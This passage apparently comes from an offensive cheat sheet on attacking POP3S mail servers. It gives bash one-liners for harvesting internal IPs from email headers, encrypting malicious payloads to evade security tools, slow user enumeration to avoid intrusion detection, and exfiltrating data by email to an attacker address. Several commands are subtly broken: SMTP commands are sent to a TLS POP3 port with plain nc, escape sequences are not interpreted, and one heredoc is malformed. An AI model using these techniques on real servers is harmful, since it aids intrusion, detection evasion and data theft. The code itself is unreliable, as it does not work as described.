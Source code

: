 ### Email-based Pivoting
- **Tool:** [[Custom Scripts]], SMTP Relays
    ```bash
    echo "RETR 1" | nc <target_ip> 995 | grep -oE 'Received: from ([0-9]{1,3}\.){3}[0-9]{1,3}'
    ```
- **Description:** Extract internal IP addresses from email headers to identify potential lateral movement targets within the network.

## Defense Evasion

### Encrypting Malicious Payloads
- **Tool:** [[OpenSSL]]
     ```bash
     openssl enc -aes-256-cbc -salt -in payload.exe -out payload.enc
     ```
- **Description:** Encrypt malicious payloads before sending them via email through POP3S to avoid detection by security tools.

#### Low and Slow Attacks
- **Tool:** [[Custom Scripts]]
    ```bash
    for i in {1..1000}; do echo "USER user$i" | nc <target_ip> 995; sleep 60; done
    ```
- **Description:** Slowly enumerate users or attempt logins to avoid triggering rate-limiting or intrusion detection systems.

## Data Exfiltration

### Exfiltration via Email
- **Tool:** [[Custom Scripts]]
    ```bash
    echo "MAIL FROM: attacker@domain.com\nRCPT TO: victim@target.com\nDATA\nexfiltrated_data\n." | nc <target_ip> 995
    ```
- **Description:** Exfiltrate sensitive data by sending it via email to an external account, potentially using compromised POP3 credentials.

### Exfiltrating Data via Email Attachments
- **Tool:** [[Custom Scripts]]
     ```bash
     openssl s_client -connect <target_ip>:995 EOF
     USER <username>
     PASS <password>
     RETR <message_number>
     EOF
     ```
 - **Description:** Retrieve sensitive emails or attachments from the mail server and exfiltrate them via POP3.
